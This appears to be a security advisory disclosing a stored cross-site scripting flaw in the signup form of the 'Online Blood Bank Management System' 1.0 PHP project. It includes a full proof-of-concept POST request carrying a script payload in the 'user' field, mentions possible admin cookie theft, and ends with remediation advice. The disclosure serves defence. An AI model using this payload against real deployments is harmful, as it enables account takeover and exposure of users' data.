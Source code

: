 # Stored XSS in Online Blood Bank Management System V1.0



### Affected Product

Online Blood Bank Management System

### Vendor Homepage
[https://itsourcecode.com/free-projects/php-project/online-blood-bank-management-system-in-php-with-source-code/](https://itsourcecode.com/free-projects/php-project/online-blood-bank-management-system-in-php-with-source-code/)

### Affected files/Files used in the Attack

/bloodbank/signup.php
/bloodbank/register.php
/admin/bloodbank/user.php


### Version

1.0

### Vulnerable Software

[https://itsourcecode.com/wp-content/uploads/2021/02/Blood-Bank-Management-System-in-Php-with-Source-Code-1.zip](https://itsourcecode.com/wp-content/uploads/2021/02/Blood-Bank-Management-System-in-Php-with-Source-Code-1.zip)

### Requirements

Authentication: None is required to perform attack. 

### Additional Items

Escalation of Privileges/Account Takeover may possible via Cookie Stealing. A working payload is still being developed, but retrieving the cookie for the admin user may be possible via XSS and can be utilized by the low level user to escalate privileges. 

### Problem

Cross-Site Scripting (Stored)

### Root Cause

A Stored Cross Site Scripting vulnerability was identified in the User Registration (signup.php) of the 'Online Blood Bank Management System' project, that affects both the 'register.php' and /admin/user.php application components. Malicious code can be injected within both the 'user' parameter due to improper sanitization, filtering, sanitization and implementation of other XSS prevention mechanisms.

### Impact

Attackers can exploit this to achieve account takeover and obtain a session as the administrative user or other users of the application. 

# Description

In Version 1.0 of the Online Blood Bank Management application, A Stored Cross Site Scripting vulnerability was identified in the User Registration (signup.php) of the 'Online Blood Bank Management System' project, that affects both the 'register.php' and /admin/user.php application components. Malicious code can be injected within both the 'user' parameter due to improper sanitization, filtering, sanitization and implementation of other XSS prevention mechanisms.

# Proof-of-Concept

## Sample Request

```
POST /bloodbank/register.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 119
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/bloodbank/signup.php
Cookie: PHPSESSID=6bp6hj4uabm82gml4a6qmmqrff
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

tab=on&user=<script>alert(window.origin)</script>&pass=pass&useremail=test%40email&bloodgroup=A&gender=male&sub=Sign+up
```


## Vulnerability Type

Stored Cross Site Scripting

## Vulnerable Location

Signup page (POST made to /register.php), user parameter

## Test Payload 
``` tab=on&user=<script>alert(window.origin)</script>&pass=pass&useremail=test%40email&bloodgroup=A&gender=male&sub=Sign+up ```

# Successful Exploitation

![image](https://github.com/user-attachments/assets/35a22704-ffb1-4733-a283-6f1397886c30)


 # Remediation

Input validation on arrival should be as strict as possible. Any input that fails validation requirements should be rejected; not sanitized. All user input should be HTML-encoded at any point where it is copied into an application’s response. Any HTML metacharacters (< > “ ‘ and = ) should be replaced with the corresponding HTML entities (&lt; &gt; etc.) In the case where the application’s intended functionality allows users to author content using restricted subsets of HTML tags and attributes, it would be necessary to parse user-supplied HTML to validate there is no dangerous syntax being used. 
